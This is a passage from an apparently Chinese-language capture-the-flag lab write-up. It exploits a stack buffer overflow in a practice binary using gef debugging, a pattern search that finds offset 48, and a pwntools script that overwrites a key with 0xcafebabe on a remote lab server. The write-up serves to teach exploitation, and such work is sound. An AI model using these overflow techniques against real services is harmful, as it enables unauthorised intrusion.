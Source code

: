 ### 4. Check key address
```
gef➤  disass func
```
![image](https://hackmd.io/_uploads/SkQd5Ou7C.png)
> if(key == 0xcafebabe)
> 在  0x080491b9 <+51>:    cmp    DWORD PTR [ebp+0x8],0xcafebabe
> 所以0xcafebabe = ebp+0x8

```
gef➤ p $ebp+0x8
```
![image](https://hackmd.io/_uploads/Hymcou_7C.png)

> $2 = (void *) 0x61616173

**HEX to ASCII:**
0x61616173 = aaas
> 跟輸入不一樣??!
> 認為沒蓋到，pattern 改成 100
> 還是無解


### 5. 通靈中..
![image](https://hackmd.io/_uploads/S1q-CFdQA.png)
> pattern 50 輸入
```
0xffffcfd0│+0x0000: 0xde00616d ("ma"?)   ← $esp
0xffffcfd4│+0x0004: 0xf7fc1678
0xffffcfd8│+0x0008: 0xf7fc1b40
0xffffcfdc│+0x000c: 0x8049204
0xffffcfe0│+0x0010: 0x00000001
0xffffcfe4│+0x0014: 0xffffd000
0xffffcfe8│+0x0018: 0x00000000
0xffffcfec│+0x001c: 0xf7c23295
```
```
pattern search ma
```
![image](https://hackmd.io/_uploads/ByYEg9d7A.png)
> 得到偏移量 offset 48

### 6. exploit script
```
vi exp2.py
```

```python=
from pwn import *

#proc = process(["./practice05"])
proc = remote("140.124.181.158",1621)
input("[b4 sending]")

count = 48   #offset
payload = b"A" * count
target = 0xcafebabe #key = 0xcafebabe，才顯示flag
payload += target.to_bytes(8,"little")
#payload = "sdsd"
proc.sendline(payload)
proc.interactive()
```
```
python exp2.py
```